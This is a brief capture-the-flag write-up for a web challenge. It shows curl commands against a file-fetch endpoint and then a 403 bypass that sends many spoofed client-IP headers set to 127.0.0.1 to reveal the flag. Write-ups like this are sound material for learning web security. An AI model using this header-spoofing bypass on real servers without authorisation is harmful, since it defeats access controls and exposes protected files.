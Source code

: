 > [!NOTE]
> This is the writeup for the challenge by the name of `README`, not an actual README file.

**Flag:** `KCTF{kud05w3lld0n3!}`

We go the link and quickly figure out the input to the text box involves a GET request to the server.

```
~/Downloads $ curl -X 'GET' "http://66.228.53.87:8989/fetch?file=text.txt"
{"result":"Yes! You can read files! Dont ask for hint its ezz!!"}
```

Trying it on `flag.txt` however, gives us an error.

```
~/Downloads $ curl -X 'GET' "http://66.228.53.87:8989/fetch?file=flag.txt"
{"result":"403 Access Denied"}
```

Looking around, I found a few resources to help me get through this error. [One](https://sapt.medium.com/bypassing-403-protection-to-get-pagespeed-admin-access-822fab64c0b3) said to include headers with the value `127.0.0.1` to bypass the error.

Using these headers in the `curl` command, we then successfully get the flag.

```
~ $ curl -H 'X-Originating-IP: 127.0.0.1' \
     -H 'X-Forwarded-For: 127.0.0.1' \
     -H 'X-Forwarded: 127.0.0.1' \
     -H 'Forwarded-For: 127.0.0.1' \
     -H 'X-Remote-IP: 127.0.0.1' \
     -H 'X-Remote-Addr: 127.0.0.1' \
     -H 'X-ProxyUser-Ip: 127.0.0.1' \
     -H 'X-Original-URL: 127.0.0.1' \
     -H 'Client-IP: 127.0.0.1' \
     -H 'True-Client-IP: 127.0.0.1' \
     -H 'Cluster-Client-IP: 127.0.0.1' \
     -H 'X-ProxyUser-Ip: 127.0.0.1' \
     -H 'Host: localhost' \
     -X 'GET' "http://66.228.53.87:8989/fetch?file=flag.txt"
{"result":"KCTF{kud05w3lld0n3!}"}
```

